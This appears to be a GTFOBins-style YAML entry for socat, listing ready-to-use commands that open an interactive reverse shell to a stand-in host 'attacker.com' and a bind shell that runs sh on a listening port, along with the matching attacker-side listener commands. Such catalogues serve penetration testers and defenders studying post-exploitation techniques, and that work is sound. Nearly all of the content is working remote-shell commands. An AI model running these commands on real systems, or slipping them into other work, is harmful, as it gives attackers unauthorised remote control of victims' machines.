 ```yaml
---
functions:
  reverse-shell-interactive:
  - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on
      the attacker box to receive the shell.
    code: |
      RHOST=attacker.com
      RPORT=12345
      socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  bind-shell-interactive:
  - description: Run <code>socat FILE:`tty`,raw,echo=0 TCP:target.com:12345</code>
      on the attacker box to connect to the shell.
    code: |
      LPORT=12345
      socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
---
```

